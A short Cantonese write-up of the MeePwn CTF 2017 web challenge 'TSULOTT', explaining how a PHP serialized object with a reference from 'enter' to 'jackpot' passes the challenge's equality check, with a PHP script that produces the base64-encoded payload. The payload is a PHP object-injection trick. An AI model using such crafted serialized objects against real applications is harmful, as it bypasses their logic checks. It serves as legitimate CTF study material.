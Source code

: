 # MeePwn CTF 2017: TSULOTT 

### (web, 100 points, 161 team solved)

說明
>Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!!
>Remote: 128.199.190.23:8001

## 題解
呢題好 hea. 所以咁鬼多人解到
入面俾你打個 serialized object. 之後 $obj->jackpot = 一堆隨機數字.
之後 if($obj->enter === $obj->jackpot){echo $flag}
你唔會走去估果D數係乜掛. 所以求其整到 $obj->enter = &$obj->jackpot 之後就解到.

```
<?php
class Object  
{  
  var $jackpot; 
  var $enter;  
} 

$obj = new Object;
$obj->enter = &$obj->jackpot;

echo serialize($obj);
echo "<hr />";
echo base64_encode(serialize($obj));
if($obj->enter === $obj->jackpot){echo "<hr>OK";}else{echo "<hr>PK";}
?>
```
唔好問我點解最後係 echo "<hr>PK".

## 參考資料
http://php.net/manual/en/language.oop5.references.php
